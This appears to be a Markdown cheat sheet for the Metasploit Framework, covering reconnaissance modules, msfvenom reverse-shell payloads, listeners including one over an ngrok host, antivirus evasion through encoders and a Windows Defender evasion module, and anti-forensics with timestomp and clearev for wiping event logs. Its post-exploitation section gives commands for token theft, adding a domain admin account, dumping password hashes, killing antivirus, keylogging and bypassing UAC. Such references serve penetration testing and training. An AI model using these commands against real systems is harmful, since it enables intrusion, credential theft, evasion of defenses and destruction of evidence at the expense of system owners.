

# Metasploit
---
## Navigation
- [**Basic Commands**](#Basic-Commands)
- [**Commands from a file**](#Commands-from-a-file)
- [**Information Gathering**](#Information-Gathering)
	- [Port Scanning](#Port-scanning)
	- [Backup files from websites](#Backup-files-from-websites)
	- [Directory listing test](#Directory-listing-test)
	- [SSL testing](#SSL-testing)
	- [SSH kippo detection](#SSH-kippo-detection)
	- [Domain Name System](#Domain-Name-System)
	- [Remote Desktop protocol](#Remote-Desktop-protocol)
	- [Password Sniffing](#Password-Sniffing)
	- [Shodan qeuries](#Shodan-qeuries) 
- **[Vulnerability Hunting](#Vulnerability-Hunting)**
	- [Managing the database](#Managing-the-database) 
	- [Importing scans](#Importing-scans)
	- [Backing up the database](#Backing-up-the-database)
	- [NMAP](#NMAP)
	- [Nessus](#Nessus)
	- [msf utilities](#msf-utilities)
- **[Client-Side attacks](#Client-Side-attacks)** 
	- [Msfvenom](#Msfvenom)
	- [Listeners](#Listeners) 
- **[Antivirus Evasion and Anti-Forensics](#Antivirus-Evasion-and-Anti-Forensics)**
	- **[Using encoders](#Using-encoders)**
		- [shikata_ga_nai encoder](#shikata_ga_nai-encoder)
		- [opt_sub encoder](#opt_sub-encoder)
	- **[Using the new evasion modules](#Using-the-new-evasion-modules)**
		- [windows_defender_exe](#windows_defender_exe)
	- **[Using packagers and encrypters](#Using-packagers-and-encrypters)**
		- [Using 7-zip utility](#Using-7-zip-utility) 
	- **[Understanding what a sandbox is](#Understanding-what-a-sandbox-is)**
		- [Using Metasploit for anti-forensics](#Using-Metasploit-for-anti-forensics)
			- [Timestomp](#Timestomp)
			- [Clearev](#Clearev)
- **[Armitage](#Armitage)** 
	- [Scanning and enumeration](#Scanning-and-enumeration)
	- [Finding and launching attacks](#Finding-and-launching-attacks)
- [**Shell-Over-Wan**](#Shell-Over-Wan)
- **[Importing scans](#Importing-scans)** 
- **[Pivoting](#Pivoting)**
	- [Adding a route](#Adding-a-route)
	- [Metasploit](#Metasploit)
- **[Post-exploitation](#Post-exploitation)**
- **[Powershell](#Powershell)**
- **[Further learning](#Further-learning)**
---
# Basic-Commands
 - **Version**: Display version.
 - **Connect <IP:PORT>**: Works like Netcat.
 - **Help**: Display help :).
 - **Route**: Manage routes.
 - **Save**: Save the session configuration for later use.
 - **Sessions**: Manage sessions.
 - **Spool**: Saves errors in a file for later debugging.
 - **Show**: Display available modules.
 - **Info**: Display details about a specific module.
 - **irb**: Invokes the interactive ruby platform,which can be used for creating and invoking custom scripts during ***post-exploitation.*** phase
 - **Makerc**: Write out te entire command history for a particular session to a user-defined output file.
 - **Search**: To search for modules etc..
 - **Get**: Used to retrieve the value contained in a particular local variable like : *RHOSTS*.
 - **Getg**: Similar to *get*,but used to get the value for a *global variable*.
 - **Set**&**unset**: For setting and unsetting variables.
 - **Setg**&**unsetg**: For setting and unsetting global variables.

# Commands-from-a-file
Put the commands in a file
```
use <MODULE>
set lhost
set rhosts
```
Then
```
msfconsole -r <FILE>
```
# Information-Gathering
## Port-scanning
```txt
auxiliary/scanner/portscan/tcp
auxiliary/scanner/discovery/udp_sweep
```
## Backup-files-from-websites
Sometimes, developers and application administrators forget to remove backup files from the web server
```txt
auxiliary/scanner/http/backup_file
```
## Directory-listing-test
Quite often, the web server is misconfigured to display the list of files contained in the root directory.
```txt
auxiliary/scanner/http/dir_listing
```
## SSL-testing
Tests for weak cryptography and misconfigurations.
```txt
auxiliary/scanner/http/ssl
```
Tests for Heartbleed vuln.
```txt
auxiliary/scanner/ssl/openssl_heartbleeds
```

## SSH-kippo-detection
Kippo is an SSH-based honeypot that is specially designed to lure and trap potential attackers.
```txt
auxiliary/scanner/ssh/detect_kippo
```
## Domain-Name-System
```txt
auxiliary/gather/dns_info
```
## Remote-Desktop-protocol
Test for `MS12-020` vulnerability.
```txt
auxiliary/scanner/rdp/ms12_020
```
## Password-Sniffing
iT listens on the network interface and looks for passwords sent over various protocols, such as `FTP`, `IMAP`,`POP3`, and `SMB`.
```txt
auxiliary/sniffer/psnuffle
```
## Shodan-queries
```txt
auxiliary/gather/shodan_search
```
---
# Vulnerability-Hunting
## Managing-the-database
```bash
service postgresql start
```
Initiate the PostgreSQL database service
```bash
msfdbinit
db_status
```
## Managing-Workspaces
- **Workspace:** Lists all previously created workspaces.
- **Workspace -h :** This lists help for Workspace.
- **Workspace -a \<NAME\>:** This creates anew workspace.
- **Workspace -d \<NAME\>:** This deletes workspace.
- **Workspace \<NAME\>:** This switches to the specified workspace.
## Importing-Scans
Importing scans.
```bash
db_import <PathToFile>
db_import /AbuQasem/Desktop/Nmapscan.xml
```
Lists all the hosts found during scans and imports.
```bash
hosts
#Show columns and search filter by linux
hosts -C address,os_flavor -S Linux
```
Lists the services from an imported file and the DB.
```bash
services
services -h
```
## Backing-up-the-database
Exports all data within the database to an external XML file.
```bash
db_export -f xml <PathToSave>
```
### NMAP
 ```bash
 #All default nmap options work here
 db_nmap 
 ```
### Nessus
 - Perform a Nessus scan on the target system, save the report, and then import it  `db_import`.
 - Load, initiate, and trigger a Nessus scan on the target system directly through msfconsole.
```bash
#Make sure that nessus daemon is running.
sudo service nessus start
#Then load nessus
load nessus
#We need to select which policy we will use to scan our target system
nessus_policy_list
nessus_scan_new <Policy_UUID>
nessus_scan_launch <Scan ID>
#Get the report after it finishes
nessus_report_vulns <Scan ID>
```
## MSF-Utilities
Path  to the tools -> `/usr/share/metasploit-framework/tools`
- **msf-exe2vbs:** Convert an executable payload into `VBScript format`.
- **msf-exe2vba:** Convert an executable payload into `VBA format`.
- **msf-pdf2xdp:** At times, the PDF file gets flagged by the security software. It is possible to encode the malicious PDF in XDP format in order to evade the antivirus and other security software.
- **msf-msf_irb:** Built-in Ruby shell that can be used for post-exploitation capabilities (Can be invoked seperately).
- **msf-pattern_create:** Related to exploit-development.
- **msf-virustotal:** Accepts file samples as input and provides analysis on how many different antivirus engines were able to detect the file sample for the presence of malware.
- **msf-makeiplist:**  Make a range of IP's to scan.
```txt
#Create a file with a pattern like this:
192.168.1.0-150
#Then
msf-makeiplist -i <FILE>
#Output
192.168.1.1
192.168.1.2
192.168.1.3
.
.
etc..
```
---
# Client-Side-attacks
- The attacker hosts a website with the required malicious payload and sends it to the victim.
- The attacker sends the payload embedded in any innocent-looking file, such as a DOC, PDF, or XLS, to the victim over email.
- The attacker sends the payload using an infected media drive (such as a USB flash drive, CD, or DVD).

## Msfvenom
The msfvenom utility can **generate a payload** as well as **encode it** in a single command. We shall look at a few commands next:
- **List payloads**
```bash
msfvenome --list payloads
```
- **List encoders**
```bash
msfvenome --list encoders
```
- **List formats**
```bash
msfvenome --help formats
```
- **List platforms**
```bash
msfvenome --help platforms
```
- **Example usage**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
> Cheatsheet : https://book.hacktricks.xyz/shells/shells/msfvenom
### Listeners
Once we have generated a payload, we need to set up a listener that would accept reverse connections.
- **One linear example**
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/
meterpreter/reverse_tcp; set LHOST <IP>; set LPORT
<PORT>; run; exit -y"
```
---
# Antivirus-Evasion-Anti-Forensics
## Using-Encoders
### shikata_ga_nai_encoder
This is not the best way to evade a modern AV because it's easilty detected even after multiple encoding iterations. 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/shikata_ga_nai -i 5 -f exe -O ./reverse.exe

# -i ,iterations
```
### opt_sub-encoder
This is slightly better than shikata_ga_nai but overall not the best option for a real-life engagement.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -e x86/opt_sub -i 5 -f exe -O ./reverse.exe
```
## Using-the-new-evasion-modules
This module evades the Windows Defender antivirus. This is achieved using various techniques, such as metasm, anti-emulation, shellcode encryption, and source code obfuscation.
### windows_defender_exe
```bash
use evasion/windows/windows_defender_exe
```
Further reading ->  https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/ 
>There are more evasion modules that can be found by typing `search eavsion` in msfconsole.

## Using-packagers-and-encrypters
### Using-7-zip-utility
Create a pdf payload with the following module for demonstration
```bash
use exploit/windows/fileformat/adobe_utilprintf
```
Then use 7-zip utility to encrypt the pdf.



## Understanding-what-a-sandbox-is
Whenever we execute an application, be it legitimate or malicious, some of the events that occur are as follows:
- The application directly interacts with the host operating system.
- System calls are made.
- Network connections are established.
- Registry entries are modified.
- Event logs are written out.
- Temporary files are created or deleted.
- New processes are spawned.
- Configuration files are updated.

Imagine that a sandbox is an isolated container or compartment. Anything that is executed within a sandbox stays within it and does not impact the outside world. Running a payload sample within a sandbox will help you analyze its behavior without impacting the host operating system.
### Using-Metasploit-for-anti-forensics
**Meterpreter** works using an in-memory dll injection and ensures that nothing is written onto the disk unless explicitly required. However, during a compromise, we often need to perform certain actions that modify, add, or delete files on the remote file system.
This implies that our actions will be traced back if any sort of forensic investigation is undertaken on the compromised system. Fortunately, the Metasploit Framework offers tools and utilities that help us clear our tracks and ensure that little or no evidence of our compromise is left on the system.
#### Timestomp
Every file on the system have Meta-data that include the creation date,last modified,time stamps etc..,So when we compromise a system and get a Meterpreter shell on it, we might be required to access existing files on this system, create new files, or modify existing files.When we make such changes, it will obviously reflect in the metadata in the form of changed timestamps. This could certainly raise an alarm or give away a lead during an incident investigation.
We can use `timestomp` command to change the timestamp of a certian file.
```bash
#In a meterpreter shell
timestomp <FILE> -c "01/01/2021 6:30:25"
```
#### Clearenv
Whenever we interact with a Windows system, all the actions get recorded in the form of event logs. The event logs are classified into three categories:
- Application logs: Contains application events, such as startup, and shutdown.
- Security logs: Contains security events, such as login failures.
- System logs: Contains system events, such as startup, reboot, and updates.

Use `clearev`  to wipe out all the logs and clear our activity trails.
```bash
#In a meterpreter shell
clearev
```
---
# Armitage
To start Armitage:
```bash
#Start postgresql
sudo Service postgresql start

#Start metasploit
msfconsole

#Start armitage
armitage
```
Add a host to attack
1. Click on the Hosts menu.
2. Select the Add Hosts option.
3. You can add multiple hosts per line.


## Scanning-and-enumeration
Right-click on the host and select the Scan
option.


**To initiate an NMAP scan:**
1. Click on the Hosts option.
2. Select the nmap scan.
3. Select the Quick Scan (OS Detect) option.

## Finding-and-launching-attacks
1. Select the Attacks menu.
2. Click on Find Attacks.
3. Now, the Armitage console will query the backend database for all the possible matching exploits against the open ports that we found during our enumeration earlier.
4. Once the Armitage console finishes querying for possible exploits, you can see the list of applicable exploits by right-clicking on the host and selecting the Attack menu.
### Further reading
 - http://www.fastandeasyhacking.com/

---
# Shell-Over-Wan
```
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse__tcp  
set LHOST 4.tcp.ngrok.io  
set LPORT 13161  
set ReverseListeningBindAddress localhost  
set ReverseListeningBindPort 8080  
exploit
```
# Importing-external-exploits
1. Download the exploit.rb code.
2. Put it in the appropriate path `/usr/share/metasploit-framework/modules/PATH`
> Important Note
The path shown in the screenshot is the default path of the Metasploit Framework, which comes pre-installed on Kali Linux. You need to  change the path if you have a custom installation of the Metasploit Framework.
3. After copying the newly downloaded exploit code to the Metasploit directory, we will start msfconsole and issue a reload_all command to reload the internal DB.
---
# Pivoting
## Adding a route
In a meterpreter shell
```bash
run autoroute -h
```
In msfconsole
```bash
route add <IP> <SubnetMask> <SessionNumber>
#Example
route add 10.10.10.15 255.255.255.0 1
```
## Metasploit-withProxychains
1. Change default `SRVPORT` to match Proxychains
```bash
use auxiliary/server/socks_proxy
set SRVPORT 9050
run
```
2. Verify the proxy.
```bash
netstat -tunlp
```
3. Now you can use `Proxychains` without any other configurations because we are using it's default port.
```bash
proxychains <Command>
#Example
proxychains nmap -A -Pn -T4 127.0.0.1
```
---
# Post-exploitation
## Windows-based systems
**Run commands from meterpreter shell**
```
execute -f <COMMAND> -a <ARGS>
execute -f "cmd.exe" -a "/c"
# To get the output
execute -f "whoami" -a "/all" -i
```

**Elevate your permissions**
```bash
use priv
getsystem
```
**Steal a domain administrator token from a given process ID, add a
domain account, and then add it to the Domain Admins group:**
```powershell
#View process
ps
#Steal the token 
steal_token <PID>
#Get a shell on the system
shell
#Create user
net user abuqasem Pass123 /ADD /DOMAIN
#ADd user to the group
net group "Domain Admins" abuqasem /ADD /DOMAIN
```
**Dump password hashes from the SAM database:**
```bash
use priv
getsystem
hashdump
```
> NOTE:
On Win2k8 you may need to migrate to a process that is running as SYSTEM if getsystem and hashdump throw exceptions.

**Automigrate to a separate process:**
```cmd
run migrate
```
**Kill antivirus processes running on the target via the killav Meterpreter script:**
```txt
run killav
```
**Capture keystrokes on target machines from within a particular process:**
```txt
ps
migrate 1436
keyscan_start
keyscan_dump
keyscan_stop
```
**Use Incognito to impersonate an administrator:**
```txt
use incognito
list_tokens -u
use priv
getsystem
list_tokens -u
impersonate_token IHAZSECURITY\\Administrator
```
**what protection mechanisms are in place on the compromised
target:**
```txt
run getcountermeasure -h
```
**Identify whether the compromised system is a virtual machine:**
```bash
run checkvm
```
**Get a remote GUI (VNC) on the target machine:**
```bash
run vnc
```
**Version exploits**
```txt
post/windows/gather/enum_patches_    
post/multi/recon/local_exploit_suggester_
```
**Unattended files**
```txt
post/windows/gather/enum_unattend
```
**Bypass User Access Control (UAC):**
```bash
run post/windows/escalate/bypassuac
```
**Dump Hashes on an OS X system:**
```bash
run post/osx/gather/hashdump
```
**Dump Hashes on a Linux system:**
```bash
run post/linux/gather/hashdump
```
---
# Powershell
PowerShell payload formats
1. **psh**
2. **psh-cmd**
3. **psh-net**
4. **psh-reflection**
	- Very useful
	- Compilation happens in memory
	- No need of execute privileges on temp directory 
	- Use this often
- **Metasploit modules which use PowerShell**
	-  `exploit/windows/smb/psexec_psh`
        - Payload is never written to disk
	- `exploit/windows/local/powershell_cmd_upgrade`
		- Used to upgrade a  native cmd  to  meterpreter.
	- `post/windows/manage/powershell/exec_powershell`
		- Execute a .ps1 from local machine.

### Example
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 -f psh-reflection > ps.ps1
```
---
# Further learning
- [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)